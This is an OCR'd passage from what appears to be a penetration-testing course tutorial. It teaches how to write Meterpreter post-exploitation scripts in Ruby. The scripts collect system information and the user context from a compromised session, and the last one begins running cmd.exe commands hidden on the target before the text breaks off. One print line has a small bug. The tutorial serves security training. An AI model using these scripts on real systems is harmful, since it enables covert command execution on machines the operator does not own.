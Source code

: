 vi /home/strategicsec/toolz/metasploit/scripts/meterpreter/helloworld.rb
 
 
print_error("this is an error!")
print_line("this is a line")
 
- Now run the script:
 
meterpreter> run helloworld
 
 
- Now that we have the basics down, we're going to do something a little more exciting.  
- The architecture to follow when creating these scripts goes as follows:
 
def getinfo(session)
        begin
        	<stuff goes here>
        rescue ::Exception => e
        	<stuff goes here>
        end
end


- Copy and paste the following code into our helloworld.rb script:
 
def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("The target machine OS is #{sysnfo['OS']}")
       print_status("The computer name is #{'Computer'} ")
       print_status("Script running as #{runpriv}")
    rescue ::Exception => e
      print_error("The following error was encountered #{e}")
   end
end
 
getinfo(client)
 
 
 
- Now run the script:
 
meterpreter> run helloworld
 
 
- We can expand it by adding actual system commands to the script, lets look at how we can do this.
 
 
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each do |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("cmd.exe /c #{cmd}", nil, {'Hidden' => true, 'Channelized' => true})
          while(d = r.channel.read)
 